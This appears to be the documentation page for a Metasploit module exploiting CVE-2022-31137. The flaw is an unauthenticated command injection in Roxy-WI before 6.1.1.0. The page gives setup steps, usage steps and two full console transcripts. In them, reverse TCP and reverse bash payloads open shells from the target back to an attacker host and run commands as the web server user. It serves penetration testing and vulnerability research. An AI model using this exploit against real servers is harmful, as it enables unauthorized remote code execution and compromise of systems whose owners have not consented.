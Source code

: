 ## Vulnerable Application

### Description

This module exploits an unauthenticated command injection vulnerability in Roxy-WI prior to version 6.1.1.0.
Successful exploitation results in remote code execution under the context of the web server user.

Technical details about the vulnerability can be found at
[here](https://pentest.blog/advisory-roxy-wi-unauthenticated-remote-code-executions-cve-2022-31137/).
The original GitHub advisory can be found at https://github.com/hap-wi/roxy-wi/security/advisories/GHSA-53r2-mq99-f532.
The patch can be found at https://github.com/hap-wi/roxy-wi/commit/82666df1e60c45dd6aa533b01a392f015d32f755

### Setup

Roxy-WI requires Python and a web server to run. Please visit following url to find out required python and other packages.

[https://roxy-wi.org/installation.py](https://roxy-wi.org/installation.py)

```
git clone https://github.com/hap-wi/roxy-wi.git /var/www/haproxy-wi
chmod +x haproxy-wi/app/*.py 
sudo ./haproxy-wi/app/create_db.py
chown -R www-data:www-data haproxy-wi
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/roxy_wi_exec`
4. Set `RHOST`
5. Set `LHOST`
8. Run `exploit`
9. Do: `run`
10. You should get a shell.
11. **Verify** that you are getting meterpreter session.

## Options
Set `TAGETURI` if the Roxy-WI is installed at a custom path.

### TARGETURI
The base path to Roxy-WI. The default value is `/`

## Scenarios

```
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.56.116:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[*] Sending stage (40164 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:37394) at 2022-07-21 13:49:23 +0300
[+] Exploit successfully executed.

meterpreter > pwd
/var/www/haproxy-wi/app
```

You can also use cmd payloads.

```
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.56.116:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.116:37396) at 2022-07-21 13:50:23 +0300
[+] Exploit successfully executed.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)```
```
